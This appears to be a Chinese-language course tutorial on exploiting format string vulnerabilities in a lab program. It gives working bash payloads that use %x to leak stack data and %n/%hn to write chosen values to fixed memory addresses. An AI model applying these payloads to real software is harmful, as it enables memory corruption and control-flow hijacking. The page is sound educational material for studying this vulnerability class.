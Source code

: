 # 攻击格式化字符串漏洞

## 攻击一：使程序崩溃

![输入格式化字符崩溃](../img/format-attack1.png)

!!! printf函数原理

    解析格式化字符串，当遇到一个%s，便从va_list指向的位置获取一个值，并移动va_list到下一个位置。
    由于格式规定符是%s，printf()函数把获取到的值视为一个地址，并打印该地址处的字符串

![漏洞程序栈](../img/format-stack.png)
漏洞程序栈如图，输入%s多了，就会使printf函数的va_list指针移动到printf函数栈帧之上的位置。

## 攻击二：输出栈中的数据

比如要打印var的值，printf函数遇到%x时，打印出va_list指针指向的数，并将va_list推进4个字节
![打印栈数据](../img/format-attack2.png)
可知第五个输出是var的值

## 攻击三：修改内存中的程序数据

!!! printf函数中输入格式规定符

    printf函数的所有格式规定符都输出数据，唯有一个例外，就是%n，会打印目前已打印出的字符的
    个数写入内存。  
    printf("hello%n", &i)会打印hello，同时把5保存到变量i

由于目标地址是0xbffff694，构造如下命令，把输入保存在文件中
```bash
echo $(printf "\x94\xf6\xff\xbf").%x.%x.%x.%x.%x.%n > input
```

!!! warning

    为啥不能直接输入这个二进制数，而用文件输入的方式

!!! Bash命令

    $(command)的目的在于进行指令替换，用指令的结果来代替指令本身。数字之前放0x表示把94视为
    一个数字，由于是小端序，低字节放在低地址。
    
把目标地址放在栈中之后，接下来要做的就是把va_list指针移动到这个数值所在的地址，然后使用%n。
这样问题就在于需要多少个%x格式规定符，可以用试错法得知需要5个。
![修改内存数据](../img/format-attack3.png)
可见值被修改成0x1e

## 攻击四：修改程序数据为指定值

比如把var的值修改为0x66887799，如果用%n方法，需要printf函数输出0x66887799个字符（超过17亿），
通过调整精度和宽度可以达到这个目的。

!!! 精度和宽度

    精度：printf("%.5d", 10), 最少打印5位，不够前面补0，这个结果是00010  
    宽度：printf("%5d", 10)，整数位数最少5位，不够补空格，这个结果是三个空格加10

可以通过试错方法达到目的，比如
```bash
echo $(printf "\x94\xf6\xff\xbf")%.8x%.8x%.8x%.8x%.10000000x%n > input
./vul < input
```
大概7秒打印出如下结果：
![修改数据为指定值](../img/format-attack4.png)
为了实现目标值，需要去凑，大概需要打印一个小时

## 攻击四续： 更快的方法

!!! 格式符长度修饰符

    %n: 视参数为4字节整型数  
    %hn: 视参数为2字节短整型数  
    %hhn: 视参数为1字节字符型数  
    
```c
#include <stdio.h>

void main()
{
    int a, b, c;
    a = b = c = 0x11223344;
    
    printf("12345%n\n", &a);
    printf("The value of a: 0x%x\n", a);
    printf("12345%hn\n", &b);
    printf("The value of b: 0x%x\n", b);
    printf("12345%hhn\n", &c);
    printf("The value of c: 0x%x\n", c);
}
```

![修饰符区别](../img/format-attack4plus.png)

下面把var值修改成0x66887799，把var变量分为两个部分，每个部分两个字节，低端两字节地址是0xbffff694，
需要改成0x7799；高端两字节地址是0xbffff696，需要被改成0x6688。用%hn格式规定符来修改这两处内存

构建字符串：
```bash
echo $(printf "\x96\xf6\xff\xbf@@@@\x94\xf6\xff\xbf")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input
./vul < input
```
![修改指定数值](../img/format-attack42.png)

@@@@用来分隔两个地址  
精度修饰符设置为%.8x，使每个整型数被打印为8位数，加上之前打印的12个字符，printf函数已经打印了12 + 4*8 = 44个
字符，为了达到0x6688，就是十进制数26248，就是还差26204个字符。  
完成第一个地址内存修改后，如果立即使用%hn修改第二个地址内存，相同的值会被写入第二个地址，因此需要更多字符以增加到
0x7799，这就是为什么要在两个地址之间放入4个字节（@@@@）精度4369 = 0x7799 - 0x6688
